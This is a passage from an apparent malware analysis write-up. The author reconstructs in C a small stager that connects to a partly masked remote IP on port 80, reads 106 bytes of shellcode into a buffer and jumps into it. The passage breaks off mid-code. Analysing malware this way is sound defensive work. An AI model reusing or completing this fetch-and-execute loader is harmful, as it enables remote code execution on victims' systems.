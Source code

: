 ![Figure 16: Synopsis of read function](https://raw.githubusercontent.com/darksys0x/darksys0x.github.io/master/_posts/imgs/Tmp_txt/Untitled%2016.png)

Figure 16: Synopsis of read function

The call to read function might have looked like this:

```c
char buffer[106];
ssize_t nbytes_read = read(s, buffer, 106);
if (nbytes_read < 0)
    exit(1);
```
---

### Execution of shellcode

The next instruction after read syscall is `jmp ecx` . This jump might have been placed using inline assembly. It’s quite possible, the entire code might have been written in assembly since the code size is quite small. This jump is jumping to the location where the shellcode was loaded using *read* function.

In C, it may look like this:

```c
__asm__("jmp %0" :: "m" (buffer)); 
```
---

### Putting all of the code together:

```c
int main() {
    int tries = 10;
    while (true) {
        int s = socket(AF_INET, SOCK_STREAM, 0); 

        sockaddr_in serverAddress;
        serverAddress.sin_family = AF_INET;
        serverAddress.sin_port = htons(80);

        if (inet_pton(AF_INET, "149.28.xxx.xxx", &serverAddress.sin_addr) <= 0) {
            printf(
                "\nInvalid address/ Address not supported \n");
            return -1;
        }
        if(connect(s, (struct sockaddr*)&serverAddress, sizeof(serverAddress)) < 0) {
            tries--;
            if (tries == 0) {
                exit(1);
            }
            timespec t;
            t.tv_sec = 5;
            t.tv_nsec = 0;
```